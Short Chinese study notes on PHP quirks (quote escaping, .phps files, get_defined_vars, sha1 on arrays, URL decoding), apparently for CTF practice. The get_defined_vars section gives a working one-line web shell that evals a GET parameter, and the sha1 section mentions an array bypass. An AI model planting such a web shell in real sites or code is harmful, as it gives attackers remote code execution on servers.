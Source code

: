 ## PHP中的一些未整理完的东西
>持续更新
### 关于PHP字符串中的引号

PHP的字符串中，双引号完全支持转义字符，也支持在打印里面的变量（如果不想打印，需要写成\$）。

单引号，除非是要在单引号里面打印单引号，需要进行转义。否则，单引号中不支持其它任何形式的转义。
```php
//只有这种情况是可以转义的
$a = 'I\'m a good man.';
//打印结果为：I'm a good man.
//其它情况
$b = "hah";
$c = "a";
$a = '$b $c';
//打印结果为：$b $c
```
### PHP源码文件

有时候源码会写在后缀为phps的文件里，比较坑。
>https://zhidao.baidu.com/question/43693848.html

#### get_defined_vars()
该函数会返回一个数组，里面包含当前所有已经定义的服务器变量，环境变量和用户变量。
```php
//利用该函数可以构造一句话木马
@eval(get_defined_vars()['_GET']['cmd']);
```

#### 可以执行系统命令
https://blog.csdn.net/Auuuuuuuu/article/details/88778852

https://cloud.tencent.com/info/8ceed38d46829f15abfea34a9b82a7ff.html 

#### sha1函数
sha1函数不能加密数组，返回值为false。

该特性经常被用于一些绕过之中。

#### urldecode
当一个url被访问的时候，php会先将url进行url解码一次。使用的方法可参考如下博文。

>https://www.cnblogs.com/xccjmpc/p/3348710.html